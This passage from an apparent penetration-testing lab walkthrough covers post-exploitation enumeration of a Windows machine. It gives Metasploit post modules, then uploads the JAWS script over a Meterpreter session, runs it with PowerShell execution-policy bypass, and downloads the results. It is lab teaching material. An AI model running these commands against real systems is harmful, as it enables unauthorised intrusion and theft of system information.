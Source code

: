     - **Enumerate installed patches**:

        ```bash
        use post/windows/gather/enum_patches
        ```

    - **Enumerate shared drives**:

        ```bash
        use post/windows/gather/enum_shares
        ```

#### Step 3: Using JAWS (Just Another Windows (Enum) Script)

**JAWS** is a PowerShell script used for automating the local enumeration of Windows machines. To use it:

1. Copy the content of the **JAWS** script to your lab environment (under **root/Desktop/jaws-enum.ps1**).

2. Return to your **Meterpreter session** and create a temporary directory on the target machine:

    ```bash
    sessions 1
    cd C:\
    mkdir Temp
    cd Temp
    ```

3. Upload the **JAWS** script to the target system:

    ```bash
    upload /root/Desktop/jaws-enum.ps1
    ```

4. Open a shell to execute the script:

    ```bash
    shell
    ```

5. List the contents of the current directory to verify the script is uploaded:

    ```bash
    dir
    ```

6. Execute the **JAWS** script using PowerShell and output the results to a file:

    ```bash
    powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
    ```

7. Exit the shell and return to the **Meterpreter session** using **CTRL + C**.

8. Download the results file to your local machine for further analysis:

    ```bash
    download jaws-enum.txt
    ```
